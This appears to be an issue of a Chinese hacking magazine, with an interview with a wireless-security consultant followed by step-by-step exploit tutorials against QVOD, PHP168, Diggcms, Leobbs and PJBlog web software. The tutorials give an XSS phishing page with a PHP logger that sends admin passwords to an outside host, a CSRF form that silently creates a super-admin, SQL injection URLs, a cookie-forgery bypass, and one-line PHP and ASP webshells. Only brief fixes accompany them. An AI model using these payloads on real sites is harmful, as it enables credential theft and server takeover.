
**黑手：** 作为 xKungfoo 的演讲人，能给我们读者简单介绍一下 kungfoo 吗？

**杨哲：** 好的。首先 xKungfoo 是 XCon 的从属会议，而 XCon 安全焦点信息安全技术峰会是国内最知名、最权威、举办规模最大的安全会议之一，在全世界具有一定的影响力。作为亚洲极富盛名的 XCon 黑客大会，自 2002 年起已经成功举办了 7 届，相对于偏向内核及底层黑客技术的 XCon 会议，xKungfoo 则是面向应用技术类的安全／黑客技术会议，其 kungfoo 取自“功夫”的英语用法，很有中国特色。2008 年 11 月举行的是第一届 xKungfoo，在这里我也要感谢 xKungfoo 举办方的 casper 提供了这么一个良好的机会。

**黑手：** 安全专家和 Hacker 这两种大众眼里泾渭分明，但在技术本质上却又互相包含的名称，你如何看待这两个词汇？

**杨哲：** 对我来说，Hacker 是一个褒义词，指的是不断探索不止、追求的精神化身（在这方面我是理想主义者），很可惜现在这样的人已经很少了，而且很多所谓的“黑客”已经将这个概念毁得一塌糊涂，建议看看当年小四写的“你尽力了么”，这篇文章曾经多年放在我的桌面上。而作为安全专家或者专业安全顾问，我觉得最重要的一条就是职业的性质决定你可以研究攻击，但目的是为了更好地防御，而且在绝大部分情况下，是不太可能展示这方面技术的。

**黑手：** 对于新出台的网络安全法律，网上主要出现了两种声音，一种是支持，一种是反对，请问你对于新法律如何看待？

**杨哲：** 我的工作性质是安全顾问及应急响应顾问，曾为企业、政府及一些部门工作，所以有时候也会协助客户恢复，甚至追踪非法的行为。我个人觉得，无论怎样，非法侵入他人网络的行为本身肯定是不值得称赞的。自己搭环境学习测试，或者对朋友友情检测之类的，都还可以理解，但对于那些明显带有恶意企图，甚至带有犯罪因素的入侵行径，应当予以严惩。

**黑手：** 我们知道在很多传统行业，对于专业技术人员，国家是通过职称来对其进行等级划分和评定的，比如大学里面有助教、讲师、副教授、教授这样的等级称号；水利单位有助理工程师、工程师、高级工程师这样的等级称号。我想问的是，网络安全这块，职称都有哪些等级？

**杨哲：** 在安全公司内部也经常用到工程师、高级工程师之类的等级。但是在安全行业上而言，并没有明确的职称等级划分和规定。不过关于“网络安全”的资质认证倒是分为几等，比如中低级别的金美 CIW Security Analyst 安全分析师，中级的如思科的 CCSP 及微软的 MCSE+Security，高级的如 CISSP 等，这些都是行业内认可的资质证书。

**黑手：** 安全工程师的前身一定要有 Hack 的经历才能具备完整的技术吗？

**杨哲：** 这倒不一定，不过很多大牛的经验确实来自实战，无论是友情检测还是渗透测试，这些确实能让人学到很多技能。

**黑手：** 在无线安全这个圈子，你能给我们介绍一下有哪些先驱级的人物或者黑网？

**杨哲：** 呵呵，总体来说，国外的技术确实要领先很多，推荐一些无线黑客站点，这里面有很多知识值得研究：

- http://www.churchofwifi.org/ 被称之为“无线教堂”的无线安全技术圣地
- http://www.wirelessve.org/ 公布无线漏洞的站点
- http://www.wifihacktools.com cowpatty 的官网
- http://trifinite.org/ 这个是关于蓝牙 hacking 的
- http://www.aircrack-ng.org/ 这个不用我多说了吧？无线破解必备的 aircrack-ng

**黑手：** 技术总是充满着挑战，Hack 安全这个圈子尤其如此，也许昨天的技术领先者，今天就被赶下了马，你如何看待 Hack 之间的技术挑战？

**杨哲：** 这世上没有什么是绝对安全的，总是会有办法的，只是没有发现而已。就像我们小时候做数学题可以一题多解一样，没有做不到，只有想不到。这种感觉不正是一种挑战么？

## 业余爱好

**黑手：** 你的业余爱好玩得也很专业，还是一些户外活动的领队，能给我们介绍一下这方面的情况吗？

**杨哲：** 记得第一次接触户外是在 02 年，那一次和 2 个朋友背着帐篷在秦岭深处一个偏僻山沟里穿行了 3 天 2 夜，半夜潮湿浓郁的山雾让我印象极为深刻，戴着头灯也只能照到 2、3 米远。之后就开始自己组队，在过去的 7 年里，自己带队进行了野外宿营、悬崖速降、皮艇漂流、徒手攀岩、原始丛林穿越、自行车长途骑行等户外体验，比如 04 年暑期那次，曾经和朋友一起花了 13 天骑自行车从西安到银川，成为当时银川举行的摩托车旅游节现场唯一的自行车队，哈哈，和一帮子宝马车手合影。

**黑手：** 徒步旅行给你带来最大的收获是什么？

**杨哲：** 让我学会很多，可以说现在性格中乐观的一面就是从户外学到的，在路上的时候学会了享受过程，而不单单是结果。回想起在太白山的深夜里，大雨下带着队伍赶往集合点的那种感觉，我始终觉得，户外那种不断探索、前进的精神是和我们常说的黑客精神颇有些相似的。

**黑手：** 在一般人眼中，Hacker 这类天才的形象一般都是厚重的眼镜加上不修边幅的外貌以及不怎么健康的肤色，而你却给人一种积极健康的形象，你是如何协调技术和健康生活之间的平衡？

**杨哲：** ……呃……首先，我算不上是黑客，因为我不怎么会编程，那些能独自编程撰写数十万行代码的人一直让我崇敬，比如我们团队研发组的组长 WindXu 就曾是国内几家著名游戏公司的主程，在编程上实力非常强劲，ZerOne 安全团队自发的分布式破解项目实现就主要由他负责。而作为研发 2 组的组长 KingHe，也是大学某重点实验室的博士，负责及参与过众多的研发项目，目前负责 ZerOne 安全团队的分布式破解中 GPU 破解分支项目。所以，相对于这些朋友和一些牛人，我只是个做自己喜爱事情的杂伙罢了。至于技术和健康的平衡，周末偶尔去趟户外会是个好选择。

**黑手：** 在亲戚朋友中，他们知道你除了安全工程师这个职业，也应该知道这个职业所包含的“Hack”职业技能吧？有没有朋友让你帮忙找回 QQ 密码什么的或者盗一个 QQ？

**杨哲：** 曾经有很多，不过都回绝了，前几年以至于每次讲授安全课程时都会强调一下不要问此类的问题。

**黑手：** 当朋友发现你也不能帮助他们找回 QQ 密码，会不会对你很失望？别人对你职业认知上的误区，你如何看待？

**杨哲：** 呵呵，如果一定要说的话，我会告诉他们我的专长不是这个。对于职业上的误区，这个很常见，不需要争辩什么。

**黑手：** 对于未来有什么规划，打算在无线安全这个领域达到什么样一个高度？

**杨哲：** 关于未来有一些想法，不过在事情没实现之前，我不喜欢多说，何况这个世上高手太多，会贻笑大方的。很高兴认识黑手的朋友，欢迎大家到我的博客做客 http://bigpack.blogbus.com，希望能结识更多热爱无线安全及 Hacking 技术的朋友。

感谢：本次采访得到了水的原点、风飘雨、鲜橙加冰、猪哥靓的协助，本文的完全版请参考本期杂志光盘。

## Qvod 电影系统之 XSS 钓鱼

脑袋花浪子

- 从本文可以学到：
- Qvod 电影系统 XSS 漏洞分析
- XSS 漏洞的分析和实战利用

QVOD 电影系统 v0.1 beta 自带了约 4 万数据，安装的时候直接导入即可，程序官方网站为：http://www.765dy.com/，在首页可以看到有个“我要求片”，点击来到了 http://www.765dy.com/q.php。我们来看看 q.php 里的代码是怎么写的，关键代码如下：

```php
require_once('include/common.php');

if (!empty($name)) {
    $sqlstr = "insert into `wanted` (`name`,`actor`,`area`,`type`,`intro`,`qq`,`email`) values ('$name','$actor','$area','$type','$intro','$qq','$email')";
    $sql->ExecNoneQuery($sqlstr);
    if (mysql_insert_id()) {
        echo "提交成功！<br/><br/><a href='javascript:CloseWin()'>关闭本窗口</a>";
    }
}
```

这里直接把 name、qq、email 信息插入数据库了，再看看下面的代码：

```html
<form id="feedForm" name="feedForm" action="q.php" method="POST">
<table width="98%" border="0" align="center" cellpadding="3" cellspacing="1" class="tableborder">
<tr bgcolor="#FFFFFF"><td width="10%" align="right">片名：</td><td><input name="name" type="text" value="" size="50"><font color="Red">*</font></td></tr>
<tr bgcolor="#FFFFFF"><td width="10%" align="right">主演：</td><td><input name="actor" type="text" value="" size="50"></td></tr>
<tr bgcolor="#FFFFFF"><td width="10%" align="right">分类：</td><td><input name="type" type="text" value="" size="50"></td></tr>
<tr bgcolor="#FFFFFF"><td width="10%" align="right">地区：</td><td><input name="area" type="text" value="" size="30"></td></tr>
```

都是直接处理的，为了方便测试，我已经 down 到了本地，直接在片名的地方写上：`<script>alert(document.cookie)</script>`，如图 1 所示。

提交后我们来到后台的求片信息里，看到我们的 HTML 代码已经被执行了，如图 2 所示。

既然什么都没过滤，那么直接写进去个 JS 文件，如 `<script src=http://hacklu.net/test/x.js></script>`。JS 内容可以写很多种，篡改标题、改网页、内容挂马等等，我们这里只谈钓鱼，也就是得到网站管理员的用户名和密码，JS 内容如下：

```javascript
function Phish(){
    info = "这里写入 html 代码";
    document.write(info);
}

function doit(){
    setTimeout("Phish()", 1000);
}
```

这里我们要钓的是管理员的用户名和密码，那么直接来到管理员登录的地方，http://192.168.1.102/qvod/admin/index.php，查看源码，如图 3 所示。

大家不要以为把图 3 的代码直接复制到上面的 JS 那里就可以了，因为涉及到一个引号转义的问题，像 `<div id="login">` 这样的代码必须改成 `<div id=\"login\">` 才可以。代码那么多，如果手工修改很累人的，这里可以用 JavaScript 的 escape() 函数进行编码，然后再用 JS 中的 unescape() 函数进行解码。

为了不浪费版面，完整的代码已经打包了，如图 4 所示。

下面就是 a.php 中的内容，刚才通过查看返回的 HTML 代码我们知道了 `<input name="username" type="text">` 和 `<input name="password" type="password">` 等表单，我们修改完用户名密码再返回后台首页，相关代码如下：

```php
<?php
Header("Location: http://192.168.1.102/qvod/admin/index.php?");
if(isset($_POST['username'])&&isset($_POST['password'])){
    $file_path="password.txt";
    $file = @fopen($file_path,"a");
    $string = "Username:".$_POST['username']." and password:".$_POST['password']."\n";
    @fwrite($file,$string);
    @fclose($file);
}
?>
```

这样就转向目标站的后台首页，而下面的代码还会被执行，PHP 中只有遇到像 exit(); 或 die(); 这样的代码，其后的内容才不会执行。下面就是盗管理员账号和密码的时刻，如果成功了，我要求的不多，只要菜鸟朋友能期期买《非安全》杂志就行了——（小编：樱花岚对谅）。

在片名的地方写上：`<script src=http://hacklu.net/test/x.js></script>`，这样管理员在登录后台点击求片信息后就会退出登录页面，如图 5 所示。

只要重新登录了，我们自己网站的 a.php 就会生成 password.txt，里面记录着管理员登录的账号和密码，如图 6 所示。

不过现在还不是很完美，因为每次管理员点击都会退出重新登录，这样反复几次，管理员肯定会怀疑。那么我们就通过判断 cookies 只允许程序执行一次，也就是说利用 cookies 做一个只允许访问一次的页面。当管理员访问带跨站代码的页面时，我们做一次记录，再次访问的时候 cookies 就已经存在了。

我们打开 x.js 文件，在内容的后面加上如下 JS 代码：

大家可以去 `http://hacklu.net/test/escape-unescape.htm` 进行编码，然后在 JS 内容里加上 unescape 函数 `document.write(unescape(info));`，在编码之前修改 `<form method="POST" action="chklogin.php">` 里的 action 为我们自己的网站路径，如 `action="http://hacklu.net/test/a.php"`。

```javascript
function get_cookie(Name) {
    var search = Name + "=";
    var returnvalue = "";
    if (document.cookie.length > 0) {
        offset = document.cookie.indexOf(search);
        if (offset != -1) {
            offset += search.length;
            end = document.cookie.indexOf(";", offset);
            if (end == -1)
                end = document.cookie.length;
            returnvalue = unescape(document.cookie.substring(offset, end));
        }
    }
    return returnvalue;
}

function cnt_net(){
    if (get_cookie('nohack')==""){
        doit();
        document.cookie="nohack=1572";
    }
}

cnt_net();
```这样，管理员在点击“影片信息”后就不会再退出了，如图7所示。

进了后台我们如何拿到 WEBSHELL 呢？来到“模板管理”的地方，如图8所示。

注意是 tpl 格式的，这种跟 HTML 差不多，是一种模板格式。如果我们直接点“修改”，保存的还是 tpl，那么即使一句话插入成功，这种扩展名也是执行不了的。看了一圈却没有修改扩展名的地方，不知道大家注意到图8最下面的 URL 地址没？也就是：http://192.168.1.102/qvod/admin/tpl.php?action=edit&name=search.tpl，这是我编辑的 search.tpl 文件，那么我们直接提交一个不存在的 search.php 呢？

于是我提交：http://192.168.1.102/qvod/admin/tpl.php?action=edit&name=search.php，暴出了绝对路径，但是显示可以编辑。直接写个 PHP 的一句话木马进去，如图9所示。

提交后显示成功，不过在“模板管理”的地方不会显示 search.php，这个我们不用管它，直接拿出连接工具连接 http://192.168.1.102/qvod/templates/search.php 就可以了，如图10所示。

哈哈，成功地拿到了 WEBSHELL。为了方便菜鸟朋友测试，我做了个动画一起打包给大家了。

（作者做的动画和本文使用的 JS 文件已经收录在光盘中）

> 编辑点评：本文分析了 qvod 电影系统的 XSS 漏洞，以及其漏洞的利用，并最终拿到 webshell，可见 XSS 的威力也是非常大的。

## PHP168 整站系统之 CSRF 攻击

图楼浪子

- 从本文可以学到：
- CSRF 漏洞原理
- CSRF 漏洞的利用和实践

CSRF 是 Cross Site Request Forgery 的缩写，中文意思是“跨网站请求伪造”，也有人写成 XSRF。黑客伪造目标用户的 HTTP 请求，然后将这个 HTTP 请求发送给有 CSRF 漏洞的网站。有 CSRF 漏洞的网站执行了伪造的 HTTP 请求，就引发了一个跨网站请求伪造攻击。黑客制作了邮件或图片链接的 HTTP 链接，让目标用户在不注意的情况下单击这个链接。由于这个 HTTP 链接是由目标用户自己发出的，而且目标用户又是拥有特定权限的合法用户，因此，有 CSRF 漏洞的网站会将这个请求视为正常的 HTTP 请求而执行它。

例如，你访问的购物网站网址为：http://www.hacklu.net，你购买了一个产品，购物网站参数为：http://www.hacklu.net/buy.php?item=camera&quantity=1，这是一个正常的 HTTP 请求，商品名称是照相机 camera，购买数量是 1，网站会将所买的商品与数量记录在用户的账户内。

如果黑客知道了 http://www.hacklu.net 购物网站的操作流程，他就可以伪造一个类似的 HTTP 请求，如：http://www.hacklu.net/buy.php?item=camera&quantity=1000，商品名称是 camera，而购买数量却是 1000。如果目标用户在网站登录期间不小心访问了这个链接，那么在他的账户内就会有一条记录是购买 1000 台的 camera。

跨网站请求伪造攻击步骤如图1所示。

其实这个技术在国外 2000 年的时候已经被提出，只不过在国内一直没有被重视，可能大家认为这个只是自愿式的漏洞。一般 CSRF 配合 XSS 比较好，如果没有 XSS 的情况下，配合社工也是不错的。下面我以 PHP168 整站系统最新版为例来给大家说说 CSRF 攻击。

PHP168 在经过多次的风风雨雨后，在 XSS 和 SQL Injection 方面都比较严格了，这次我利用 CSRF 攻击添加管理员。添加管理员页面为：http://192.168.0.3/php168/admin/index.php?lfj=member&job=addmember，如图2所示。

图2 添加管理员

我们先看一下代码：

```html
<form name="form1" method="post" action="index.php?lfj=member&action=addmember">
<tr class="head">
<td colspan="2">添加新用户</td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">账号:</td>
<td width="63%">
<input type="text" name="postdb[username]">
</td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">密码:</td>
<td width="63%">
<input type="password" name="postdb[passwd]">
</td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">重复密码:</td>
<td width="63%">
<input type="password" name="postdb[passwd2]">
</td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">所属用户组:</td>
<td width="63%"><select name="postdb[groupid]"><option value="1" selected>现有用户组</option><option value="2">游客组</option><option value="3">超级管理员组</option><option value="4">前台管理员组</option><option value="8">普通会员</option><option value="9">高级会员</option></select></td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">邮箱:</td>
<td width="63%">
<input type="text" name="postdb[email]">
</td>
</tr>
<tr bgcolor="#FFFFFF">
<td width="37%">&nbsp;</td>
<td width="63%">
<input type="submit" name="Submit" value="提交">
</td>
</tr>
</form>
```

这上面只要满足账户、密码、确认密码和所属用户组这几个条件就 OK 了，我修改完的代码如下：

```html
<html>
<body onload="document.form1.submit();">
<form name="form1" method="post" action="http://192.168.0.3/php168/admin/index.php?lfj=member&action=addmember">
<input type="hidden" name="postdb[username]" value="樱花浪子">
<input type="hidden" name="postdb[passwd]" value="nohack">
<input type="hidden" name="postdb[passwd2]" value="nohack">
<select name="postdb[groupid]"><option value="3" selected>
</form>
</body>
</html>
```

首先在网站首页注册个用户，然后在“会员中心”里“创建专辑”，这里可以上传 HTML 文件。如果不可以上传，保存为 JPG 格式再上传即可，因为 IE6 下 JPG 格式只要包含 HTML 代码也是可以执行的，如图3所示。

这样我们得到路径为：http://192.168.0.3/php168/upload_files/special/5_20090425170444_eA==.htm。现在管理员在登录前台、后台的情况下，如果访问了这个页面，就会添加一个用户名为“樱花浪子”、密码为“nohack”的超级管理员。但是这样的语句会显示“创建成功”的提示，如图4所示。

我们要做得隐蔽点，来做一个图片木马，代码如下：

图3 创建专辑

图4 “创建成功”提示

```html
<html>
<body>
<iframe src="http://192.168.0.3/php168/upload_files/special/5_20090425170444_eA==.htm" width="0" height="0"></iframe>
</img>
</body>
<html>
```

把以上代码保存为 JPG 格式的文件，在“创建专辑”里进行上传，得到路径为 special/5_20090426220451_PYwLh.jpg，如图5所示。

图5 图片地址

这样我们去“访客留言”的地方留言，把 `http://192.168.0.3/php168/upload_files/special/5_20090426220451_PYwLh.jpg` 发出去，管理员只要是登录了前台和后台，一访问这个链接就会执行上面的代码，但他看见的只是一张图片而已，如图6、图7所示。

现在在后台已经添加了一个用户名为“樱花浪子”的超级管理员用户，如图8所示。

关于进后台拿 SHELL，方法就很多了，我这里用的是在“数据库管理”那里执行 SQL 语句，`SELECT '<?php @eval($_POST[cmd]);?>' into outfile 'C:\\AppServ\\www\\php168\\nohack.php'`。注意 WINDOWS 下的目录路径连接字符为 `\\`，WEB 路径可以在管理首页看到，如图9、图10所示。

> 编辑点评：

CSRF 的威力其实很大，比起 XSS 更加隐蔽，且能针对目标用户发起主动攻击。虽然这个技术在国外早些年已经比较成熟，但在国内相关文章还不是很多。所以看了这篇文章之后，你应该想办法让自己对这个漏洞了解得更多一些。

虽然 CSRF 攻击目前貌似比较冷清，但也不得不防。常见的防范方法一般有：检查网页来源、检查内置的隐藏变量、使用 POST 等等。限于篇幅，每种办法我就不再一一举例了。另外，为了照顾菜鸟朋友，我做了动画，找我讨论的话可以去《非安全》论坛 www.nohack.cn/bbs 或者偶的 BLOG。

（作者做的动画已经收录在光盘中）

## Diggcms 系统漏洞分析与利用

圈冯爷 / 张毅

- 从本文可以学到：
- Diggcms 系统漏洞分析
- 漏洞的利用和实践

Diggcms 是一个基于内容点评推荐的 web2.0 内容管理系统，而且还是完整开源的。此系统不做什么复杂花哨的功能，只做实用的简单功能，力求做到最实用、最简单、最优质的内容管理系统。Diggcms 功能强大，但是安全性还需要加强，文章中将会讲到 Diggcms 系统的两个漏洞，一个是 SQL 注入漏洞，另一个是系统后台 Cookie 欺骗漏洞，危害性较大，只要知道管理员账户就可以利用后台 Cookie 欺骗漏洞进入网站后台，漏洞在 ishell's 博客上有提到过。

先来看 Diggcms 系统漏洞的形成原因吧！去官方下载了一套最新的 Diggcms 系统，在本地搭建起漏洞测试环境，我下载的是 Access 版。确保网站能正常访问后，首先测试一下 SQL 注入漏洞。

### 一、SQL 注入漏洞

SQL 注入漏洞出现在投票文件 `dig_vote.asp` 的 `post_str` 变量，由于过滤不严格导致 SQL 注入漏洞产生，如图1。

从图1中我们可以看到，在获取 `post_str` 变量时，先经过了 `trim()` 函数，它的功能是过滤掉变量前后的空格，然后程序就直接把参数放入到 SQL 语句进行查询了。如果是这么弱智的漏洞我也不会讲了，大家再看看文件前包含的几个文件，分别是 `inc/variable.asp`、`inc/conn.asp`、`inc/Function.asp`，其中 `conn.asp` 和 `variable.asp` 是连接数据库的文件，`Function.asp` 文件包含了大量的函数，其中就有过滤特殊字符、防注入的函数 `get_rq()`，如图2。

```asp
图2中展示了 get_rq() 方法源码截图
```

从图2中我们可以看到，这个函数会对 get 提交的字符串进行过滤，过滤掉的都是我们注入要用到的特殊字符。但是，这个文件过滤掉的都是小写字符，感觉这个防注代码没多大作用，不区分大小写，我们直接大写就可以绕过，如图3。

从图3中我们可以知道，存在 `tc_user` 这个表，它是存放管理员信息的。这里为了快速猜解出管理员账号和口令，我们可以用 union 联合查询的方法，测试语句为：`http://127.0.0.1/dig_vote.asp?post_str=2 and 1=2 Union Select 1,2,3,4,5,6,7,8,9 From tc_user`，如图4。

从图4中我们可以看到有 9 个字段，页面中返回的是 7 和 8 两个位置，我们接下来继续猜解。提交如下语句：`http://127.0.0.1/dig_vote.asp?post_str=2 and 1=2 Union Select 1,2,3,4,5,6,username,8,9 From tc_user where usid=1`，如图5。

从图5中我们可以看到页面返回错误，可能 7 和 8 两个位置不是字符串型，所以页面报错了。但是，我们要的管理员账号也显示出来了。下面接着提交如下语句：`http://127.0.0.1/dig_vote.asp?post_str=2 and 1=2 Union Select 1,2,3,4,5,6,userpass,8,9 From tc_user where usid=1`，如图6。

管理员口令也在页面上暴出来了，不过还有个问题，管理员的口令是 32 位加密的，由于 7 和 8 两个位置上的返回值最多只有 20 位，所以我们还要利用 `right(userpass,12)` 函数把后 12 位暴出来。提交语句如下：`http://127.0.0.1/dig_vote.asp?post_str=2 and 1=2 Union Select 1,2,3,4,5,6,right(userpass,12),8,9 From tc_user where usid=1`，如图7。

接下来就是破解口令登录后台了，操作步骤都很平常了，大家翻阅下以前的杂志即可。

### 二、后台 Cookie 欺骗漏洞

前面讲了 SQL 注入漏洞，下面来讲一下后台 Cookie 欺骗漏洞。我们来看看 Diggcms 后台的验证方式，采用了 Cookie 验证，验证文件是 `session.asp`，我们来看看源码，如图8。

从图8中我们可以看到，首先判断 Cookie 中 username 的值是否为空，如果是空跳转到 `login.asp` 登录页面；如果不为空，则继续验证 UserAccountStatus 是否为 1，UserRoleID 是否为 3。如果这两个变量的值都达到要求，就认为你是管理员，可以成功登录网站后台。由于 Cookie 值是在客户端，我们可以修改，因此 Cookie 欺骗漏洞就产生了。

这里首先要知道 Diggcms 管理员账号，因为程序先查询数据库判断 username 的值，默认情况下是 admin。我们来构造个 Cookie：`UserAccountStatus=1;username=admin;UserRoleID=3;`，这里使用的是傲游浏览器来构造 Cookie。傲游浏览器里有个插件，可以轻易修改 Cookie 值，而且使用非常方便。我们先访问网站后台地址 `http://127.0.0.1/admin_login/login.asp`，然后点击傲游浏览器的 Cookie Editor 插件，把构造好的 Cookie 值写进去，点击“设定”，如图9。

然后我们直接访问 `http://127.0.0.1/admin_login/index.asp`，成功进入网站后台，如图10。

下面，给大家讲讲后台如何拿 Webshell。有两种方法，一种是上传改后缀名的数据库图片木马，直接用蓝色的 Access 数据库合并软件可以生成。方法和动网 7.1 后台备份拿 Webshell 类似。上传图片可以利用后台中的“进行文件管理直接上传”（我碰到过后台可以上传图片的站，就不详细演示了）。

这里说说另一种方法：Diggcms 系统后台有个 Web 数据库管理功能，可以在线管理数据库并执行 SQL 语句。我们可以利用这个在线数据库管理功能新建数据库、新建表、新建字段，然后插入 asp 一句话木马到数据库字段内容，再利用数据库备份功能备份出 Webshell。

伪造出 Webshell。如果碰到无法上传图片的时候，可以利用这种方法拿 Webshell。下面，我给出语句，并演示给大家看看。

- `drop table tc_notdown`；删除防下载表；
- `create table tc_test(a image)`；建立 tc_test 表，字段 a；
- `insert into tc_test(a) values ('<%execute request("a")%>')`；字段 a 写入一句话 asp 木马；
- 利用后台数据库备份导出 Webshell，如图11。

### 三、修补方法

- `dig_vote.asp` 的 `post_str` 变量，使用 `int()` 函数进行限制，如果提交的不是数字就不让通过。
- 对于后台验证文件 `session.asp`，在 Cookie 中传入管理员口令，因为管理员口令是 32 位加密，安全性还可以，把管理员账号和口令都放到 SQL 语句里进行查询；如果能拿到管理员账号和加密口令，还是可以 Cookie 欺骗进后台的。最彻底的办法是后台验证改为 Session 验证，网站源码可能要进行大量修改了。

Diggcms 系统漏洞分析与利用就讲到这里。文章中没有什么新东西，相关工具我会打包提供，如果有什么不明白的可以到《黑客手册》论坛（www.nohack.cn/bbs）去找我，我的论坛 ID 是 rabbitsafe。

（文章中用到的工具 Cookie Editor 已经收录在光盘中）

> 编辑点评：
本文分析了 Diggcms 系统的两个漏洞，漏洞的原理和使用讲得非常详细，大家可以在本地练手学习。

## Leobbs远程代码执行0day分析

赵生

- 从本文可以学到：
  1. Leobbs 系统漏洞分析和原理解释
  2. 漏洞的利用

Leobbs 是一款用 Perl 程序编写的论坛程序，在如今论坛程序百家争鸣的状况下，Leobbs 早已风光不再，Google 一下也只有 5 万多条记录。下面就其最新版本 Leobbs X Build090206 中出现的远程代码执行漏洞进行简单的分析。

## 漏洞分析与利用

凭借着 Perl 在处理文本、字符串方面具有的强大优势（个人观点），Leobbs 没有使用数据库，取而代之的是一个个文本文件。从用户名、密码到帖子内容、附件等信息，都是存储在以 cgi 为后缀名的文本文件中。这样做有着很大的隐患，如果对用户提交的信息处理不当，就会给恶意用户向服务端写 webshell 提供机会。不过，本程序的作者也在处理用户数据上下足了功夫，从下面这段处理注册用户名的代码中就可见一斑，如图 1。


可是真的就过滤完了吗？真的就安全了吗？答案是否定的。下面，我们先来看看正常的帖子是怎么储存在文件中的，如图 2。


帖子是以用户名开头，后面接上标题、发帖时间等相关信息，最后是以我们的发帖内容结尾。注意到“#”这个符号，在 Perl 程序里它是注释符，会注释掉本行剩余的所有内容。而这个符号不受我们控制，是程序自己与记录之间加的。“#”号以后的内容被注释了，看样子只有在用户名上做文章了。先直接访问下文件，结果却很意外，如图 3、图 4。


原来我们看见的符号“#！&”不是以 ASCII 编码的字符，所以这里的“#”号不再是注释符了。现在的情况是，我们后面提交的内容没有被注释掉，因而有更大的构造空间，不过首要的问题是如何“解决”掉 0xA3 及汉字等字符，让程序顺利执行下去。

有两种办法：一是我们去把这些字符注释掉；二是用类似 qx/、q/、tr/// 等函数把其引用为字符串。不过“#”号在注册时是被禁止使用的，加上用户名长度有限制，就直接考虑第二种方法。

先以 q// 函数为例，说下大体思路。在 Perl 语言中，q/中华人民共和国/是一条合法的指令，它的意思是给字符串加上引号让程序知道这是一个字符串，qx#中华人民共和国#、qx?中华人民共和国?、qx“中华人民共和国”也是合法的指令，这些函数对边界符没有硬性的规定。

我们的思路正是想利用这一特点注册一个诸如“q”这样的用户，再在帖子内容里面写上“/”，这样就可以构造出合法的指令，让程序不报错，进而继续执行下去。思路是有了，检验的结果却很失望，特殊字符是被过滤完了，只有“_”号没过滤，但程序又把“qx_”、“tr_”等单独过滤了一遍。

暂时没了办法，盯着屏幕发呆一分钟后，我看见 wap.cgi 这个文件。作者也为 wap 开发了相关页面，如果用 wap 相关页面发表帖子会怎样呢？呵呵，这次就有问题了，用 wap 相关页面发表的帖子存储在文件中的格式是这样的：“用户名+标题+ip……内容”。

可以看到，用户名和标题之间没有其他字符，用户名过滤了很多特殊符号，标题不能也那样过滤吧？接着上面的思路，注册用户名为“qx”，标题以“？”开头，帖子内容写上“？”，然后跟上自己的代码，如图 5。

语句最后是这样的：“qx ? ……127.0.0.1 123……？ or eval(……)”，访问一下，如图 6。


**漏洞临时修补建议：** 将保存帖子内容的文件夹属性设为可读写，不能执行。

> 编辑点评：
> 在我印象中，杂志上刊登 Perl 语言的系统漏洞还是第一次，看起来和我们常见的 ASP、PHP 等有很多不同，而且更丰富多样，期待后续能看到 Ruby、Python 等语言的漏洞文章。

## 可笑的 PJBlog 注入——双引号的注入

图 Tommie

- 从本文可以学到：
  1. PJBlog 漏洞分析
  2. PJBlog 漏洞利用

### 前言

PJBlog 是由舜子（陈子舜，英文名字 PuterJam，PJBlog 就是以他英文名字缩写命名的，他本人就职于腾讯公司 QZONE 开发组）所开发的一套开源免费中文个人博客系统程序，采用 ASP+Access 的技术，并同时支持简繁中文、UTF-8 编码。相对于其他系统，PJBlog 具有相当高的运作效能以及更新率，也支持目前 Blog 所使用的新技术。

PJBlog 一直在安全方面做得很不错，至少我一直这么认为，最近发布了安全补丁，修复了 170 版本的几个注入。现在还爆出漏洞，确实令人好奇，我们就来分析利用下吧。

### 过程

PJBlog 的最新补丁增加了 Checkxss() 重要函数（代码安全由某安全小组测试通过），修了几个变量。大家先下载补丁包和原来没被升级的 170 版本安装包，把漏洞文件和对应的补丁文件用 DOS 命令“FC 1.asp 2.asp”（执行格式）比较，发现确实如官方所说，过滤了好几个变量。漏洞文件 Action.asp 代码如下：

```vb
if request("action")="checkAlias" then
  dim strcname,checkcdb
  strcname=request("cname") ' 关键的地方
  set checkcdb=conn.execute("select * from blog_Content where log_cname='"&strcname&"'")
  if checkcdb.bof or checkcdb.eof then
    response.write("")
  else
    response.write("")
  end if
  set checkcdb=nothing
```

通过以上代码我们看到，用 request 集合获取 cname 变量并提交到 strcname 变量，接着就是熟悉的 SQL 查询了，这是一个很弱智的错误。我翻查了一下以前的 PJBlog 版本，却只有没被升级的 170 版本有这个漏洞，150 及其以前的版本并没有 Action.asp 这个文件，看起来这个文件是新增上去的。值得一提的是，带入数据库查询是用双引号，而不是单引号，但构造 SQL 语句也很简单，如下所示：

```vb
Action.asp?action=checkAlias&cname=nohack" or (select top 1 asc(mid(mem_password,1,1)) from blog_member where mem_id=1)>97 and "1"="1
```

这条语句先是匹配前面的双引号，接着再用 or 子句另外构造一个 select，这个 select 是显示查询结果的最高一级，并提取 mem_password 字段的第一位进行 ASCII 编码，得出的结果与经过 ASCII 编码的“a”（“a”的 ASCII 编码是“97”）进行比较，最后再匹配最后面的双引号。

这里要注意两点：

1. 构造闭合双引号的 SQL 只能用一个双引号。不知道大家看清楚没有，这里的语句是“set checkcdb=conn.execute("select * from blog_Content where log_cname='"""&strcname&"""")”。正常来说，最终带入数据库查询的格式应该是：

```sql
select * from blog_Content where log_cname='"nohack"""'
```

这里有两个双引号，刚开始我写 SQL 是用两个双引号闭合的，后来才发现不行。再用一个双引号的语句：“Action.asp?action=checkAlias&cname=nohack" ' '1'='1”让程序自身报错，显示信息如下：

> Microsoft JET Database Engine '(0x80040E14)'
> 字符串的语法错误，在查询表达式 'log_cname='"0" ' '1'='1'' 中。

这里我们看出，带入数据库查询的两个双引号却自动变成了一个双引号，我想是 IIS 自身的问题吧？

2. 这里并不能用 union，因为带入数据库后就是经过一个游标集合的判断，要么返回“check_right.gif”图片，要么返回“check_error.gif”图片，没有数据输出。再说，PJBlog 只有 ACCESS 版，官方并没有出 SQL 版，所以有些读者会想到这个漏洞在 SQL 环境下的利用。

### 应用

这个注入很特殊，用工具跑是检测不了的，因为是双引号闭合。手工注入呢又太麻烦，网上流传着 VBS 和 PHP 版的利用程序，我用过 VBS 版的，格式如下：

```vb
cscript.exe pjblog.vbs http://www.nohack.com/ admin
```

